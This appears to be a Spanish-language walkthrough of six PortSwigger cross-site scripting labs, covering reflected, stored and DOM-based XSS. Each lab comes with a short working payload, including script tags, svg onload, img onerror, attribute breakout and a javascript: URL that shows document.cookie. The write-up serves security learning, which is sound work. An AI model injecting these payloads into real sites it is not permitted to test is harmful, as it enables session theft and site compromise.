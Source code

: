 https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
## LAB 1

El lab cuenta con una barra de busqueda vulnerable a xss reflected, con el clasico alert podemos inyectar codigo:

```
<script>alert(1)</script>
```

## LAB 2

Hay un XSS Stored en la seccion de comentarios sin proteccion alguna:

```
<script>alert(1)</script>
```

## LAB 3

Al igual que en el primer lab tenemos una barra de busqueda, le mandamos un string aleatorio y lo capturamos con Burp Suite. En el repeater vemos que nuestro string lo carga un img src entonces podemos inyectar el siguiente payload:

```
"><svg onload=alert(1)>
```

## LAB 4

En este lab la etiqueta script no le gusta asique probamos el clasico payload con img:

```
<img src=1 onerror=alert(1)>
```

## LAB 5

Este lab es un XSS basado en DOM, si observamos la url existe un parametro que es returnPath, si lo modificamos podemos obtener el document cookie de la siguiente manera:

```
javascript:alert(document.cookie)
```
## LAB 6

Al escribir un string random en la barra de buscar vemos que se guarda en un parametro value entonces cerrando la comilla e inyectando el siguiente codigo podremos hacerlo:

```
"onmouseover="alert(1)
```